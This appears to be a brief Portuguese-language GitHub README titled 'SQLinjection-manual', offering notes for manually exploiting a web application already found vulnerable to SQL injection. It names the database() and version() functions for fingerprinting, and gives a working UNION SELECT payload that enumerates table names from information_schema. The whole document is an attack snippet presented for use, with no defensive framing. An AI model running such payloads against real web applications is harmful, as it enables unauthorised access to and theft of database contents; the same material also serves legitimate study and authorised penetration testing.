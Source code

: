# SQLinjection-manual
parâmetros para explorar SQLinjection Manualmente

## depois de ter a certeza que uma aplicação web está vulnerável a sql injection, você deve querer acessar o banco de dados:
# parâmetros
```
database() -> serve para mostrar o nome do banco de dados
```
```
version() -> serve para mostrar a versão do banco de dados
```

# exemplo de uso
```
-3 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() limit 0,1
```
